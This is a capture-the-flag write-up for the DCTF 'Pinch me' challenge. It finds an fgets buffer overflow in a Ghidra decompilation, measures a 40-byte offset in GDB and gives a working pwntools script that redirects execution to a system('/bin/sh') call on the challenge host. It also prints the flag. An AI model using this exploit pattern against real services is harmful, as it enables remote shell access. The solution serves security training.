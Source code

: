 # Pinch me

## Description

This should be easy!

`nc dctf1-chall-pinch-me.westeurope.azurecontainer.io 7480`

[pinch_me](pinch_me)

## Solution

First step let's decompile the binary with Ghidra. In the `main` function (the binary is not stripped) we can easily find the function `vuln` and after a brief looking it was easy to spot the buffer overflow vulnerability: an `fgets` writes 100 bytes of input in an array of 24 bytes.

![img1](img/img1.png)

How many bytes we need to give to the `fgets` in order to hit the return address? Let's open up the binary with GDB and using an older trick let's give an input like `AAAABBBBCCCCDDDD...`, now we can inspect the memory and after the `RET` instruction we can see that the process try to return to address `0xKKKK`, so we have find the offset of the return address: 40.

![img2](img/img2.png)

The next step is to rewrite the return address with somethings interesting to get the control of the remote machine.

```
00401190: 48 89 c7                   MOV        RDI,RAX
00401193: e8 c8 fe ff ff             CALL       fgets 
00401198: 81 7d f8 de c0 37 13       CMP        dword ptr [RBP + local_10], 0x1337c0de
0040119f: 75 0e                      JNZ        LAB_004011af
004011a1: 48 8d 3d 9f 0e 00 00       LEA        RDI, [0x402047] = "/bin/sh"
004011a8: e8 93 fe ff ff             CALL       system     
004011ad: eb 23                      JMP        LAB_004011d2
```

We need to jump not at the `call system` address, cause we don't have the right parameter in `RDI`, so I try to jump one instruction before, this ensure to load the address of `/bin/sh` into the `RDI` register. 

We can improve the script by inserting a rop-chian jump to `0x4011a1` without any parameter:

```python
from pwn import *

offset = 40
sysload = 0x4011a1

context.arch = 'amd64'
elf = ELF('./pinch_me')
p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

rop = ROP(elf)
rop.call(p64(sysload), [])

payload = [
	b"A" * offset,
	rop.chain()
]
payload = b"".join(payload)

log.info(f"{p.recvline()}") # puts("Is this a real life, or is it just a fanta sea?");
p.sendline(payload)					# send our rop-chain
log.info(f"{p.recvline()}") # puts("Am I dreaming?");
p.interactive()
```

![img3](img/img3.png)

#### **FLAG >>** `dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}` 


